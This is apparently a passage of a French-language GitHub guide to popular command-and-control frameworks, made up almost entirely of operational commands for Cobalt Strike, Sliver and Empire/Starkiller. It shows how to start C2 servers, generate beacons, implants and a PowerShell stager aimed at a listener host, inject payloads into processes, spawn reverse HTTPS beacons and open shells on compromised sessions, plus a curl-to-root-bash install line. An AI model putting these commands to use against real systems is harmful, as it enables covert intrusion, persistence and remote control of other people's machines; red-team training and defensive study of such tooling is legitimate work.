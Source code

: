 ```
   ├── Communication protocols
   └── Persistence mechanisms
```

## 🛠️ Frameworks C2 Populaires

### Cobalt Strike (Commercial)
```bash
# Installation serveur Cobalt Strike
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC \
     -Xms512M -Xmx1024M -jar cobaltstrike.jar

# Génération d'un beacon
# Via interface GUI ou commandes
beacon> shell whoami
beacon> ps
beacon> inject [pid] x64 payload.bin
beacon> spawn x64 windows/beacon_https/reverse_https
```

### Sliver (Open Source)
```bash
# Installation Sliver
curl https://sliver.sh/install | sudo bash

# Démarrage serveur
sliver-server

# Génération d'implant
[server] sliver > generate --http example.com --save /tmp/

# Contrôle d'implant
[server] sliver > use [session-id]
[*] Active session: PRACTICAL_GIRAFFE (windows/amd64) - example.com:8080
sliver (PRACTICAL_GIRAFFE) > info
sliver (PRACTICAL_GIRAFFE) > shell
```

### Empire/Starkiller
```bash
# Installation Empire
git clone https://github.com/EmpireProject/Empire.git
cd Empire && sudo ./setup/install.sh

# Démarrage
sudo ./empire --rest --restport 1337

# Interface Starkiller
git clone https://github.com/BC-SECURITY/Starkiller.git
cd Starkiller && npm install && npm run electron:serve

# Génération d'agent PowerShell
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host https://example.com:443
(Empire: listeners/http) > execute

(Empire) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > generate
```
